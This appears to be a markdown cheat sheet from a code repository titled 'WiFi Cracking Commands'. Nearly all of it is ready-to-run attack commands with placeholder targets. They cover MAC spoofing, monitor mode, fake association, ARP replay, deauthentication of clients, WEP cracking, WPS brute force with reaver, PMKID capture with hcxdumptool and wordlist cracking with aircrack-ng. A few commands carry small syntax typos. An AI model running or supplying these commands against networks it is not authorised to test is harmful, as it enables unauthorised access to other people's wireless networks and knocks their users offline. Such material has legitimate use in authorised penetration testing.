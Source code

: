# WiFi Cracking Commands

## Setup
```
ifconfig wlan0 down
```

```
airmon-ng check kill
```

Change MAC of monitor card

```
macchanger -r wlan0
```

```
iwconfig wlan0 mode monitor
```

```
ifconfig wlan0 up 
```

## Recon

list wifi APs

```
airodump-ng wlan0
```

Filter by encryption method

```
airodump-ng wlan0 --encrypt wep
```

Capture IVs from AP or list clients

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -i wlan0 --write <filename>  
```

```
airodump-ng --bssid <BSSID> -c <CHANNEL> wlan0 --output-format <FORMAT e.g.> pcap --write <PATH/TO/FILE>
```

## Fake Association

```
aireplay-ng -1 0 -e <target ESSID> -a <target BSSID> -h <WiFi card BSSID> wlan0
```

```
aireplay-ng -1 6000 -o 1 -q 10 -e <target ESSID> -a <target BSSID> -h <WiFi card BSSID> wlan0
```

## ARP Replay

Replay ARPs to drive up IVs

```
aireplay-ng -3 -b <>target BSSID> -h <client BSSID> wlan0
```

#Deauth client (c) from AP (a) 

```
aireplay-ng -0 0 -a <BSSID> -c <CLIENT MAC> wlan0
```

Associate to AP (a)

```
aireplay-ng -1 0 -a <BSSID> wlan0
```

Extract WEP IVs from PCAP

```
ivstools --convert PCAP OUT.ivs
```

Merge IV files

```
ivstools --merge *.ivs /root/all-ivs.ivs
```

## WEP attacks

```
aircrack-ng (-K) -b <bssid> crack.cap
```

## WPS attacks

List APs with WPS enabled

```
wash -i wlan0
```

Brute-force WPS

```
reaver -i wlan0 -b <BSSID> -d 5 -N -S -vv --no-nacks
```

```
reaver -i wlan0 -c 1 -b TARGET_ROUTER_MAC -vv -L -N -d 15 -T .5 -r 3:20
```

## hcxdumptool <PMKID attack>

```
sudo hcxdumptool -o cap01.pcapng -i wlan0 --filterlist=filter.txt --filtermode=2 --enable_status=1 -c 1 #capture PMKIDS w/ hcxdumptool
```

```
sudo hcxpcaptool -E essidlist -I identitylist -U usernamelist -z cap01.16800 cap01.pcapng #convert PCAPNG to Haschcat format
```

```
sudo hcxpcapngtool <INPUT FILE(S)> -o <OUTPUT FILE>
```

## Cracking syntax

Get a list of BSSIDs, SSIDs, and handshake counts for PCAP, select index to crack

```
aircrack-ng <path/to/pcap(s)/ -w /path/to/wordlists
```